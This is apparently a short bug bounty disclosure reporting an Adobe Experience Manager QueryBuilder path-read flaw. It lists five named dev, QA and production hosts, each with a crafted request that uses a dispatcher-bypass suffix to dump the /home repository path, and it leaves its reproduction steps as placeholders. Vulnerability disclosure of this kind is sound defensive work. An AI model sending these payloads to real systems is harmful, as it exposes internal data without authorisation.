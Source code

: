 ## Title
AEM QueryBuilder Internal Path Read

## Summary
AEM QueryBuilder Internal Path Read

## Steps To Reproduce
1. Visit [website]
2. See the data.

## Image
{}

## Other affected assets
https://commliblb-dev-vip-chiadc01-rprxy2-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-qa-vip-ashadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-qa-vip-chiadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-vip-chiadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1
https://commliblb-vip-ashadc01-rprxy1-19.chi.ford.com/bin/querybuilder.json.;%0aa.css?path=/home&p.hits=full&p.limit=-1

## References:
https://speakerdeck.com/0ang3el/aem-hacker-approaching-adobe-experience-manager-webapps-in-bug-bounty-programs?slide=91

## Impact
Internal Path Read